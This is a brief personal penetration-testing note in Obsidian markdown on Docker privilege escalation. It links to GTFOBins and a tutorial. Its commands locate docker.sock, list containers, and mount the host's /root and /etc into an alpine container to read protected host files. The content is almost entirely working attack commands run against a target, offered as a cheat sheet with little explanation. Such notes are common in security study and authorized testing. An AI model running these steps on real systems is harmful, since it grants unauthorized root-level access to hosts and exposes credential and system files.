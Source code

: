 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

https://gtfobins.github.io/gtfobins/docker/


---
#### Docker.sock
```bash - target
find / -name "docker.sock" 2>/dev/null
```

>/run/docker.sock

---

[https://www.hackingarticles.in/docker-privilege-escalation/](https://www.hackingarticles.in/docker-privilege-escalation/)

```bash - target
id
```

![[Pasted image 20221110090716.png]]

```bash - target
docker ps --all
```

![[Pasted image 20221110090807.png]]

```bash - target
docker run -v /root:/mnt -it alpine
```

```bash - target
docker run -v /etc/:/mnt -it alpine
```

```bash - target
cd /mnt
```

```bash - target
ls
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
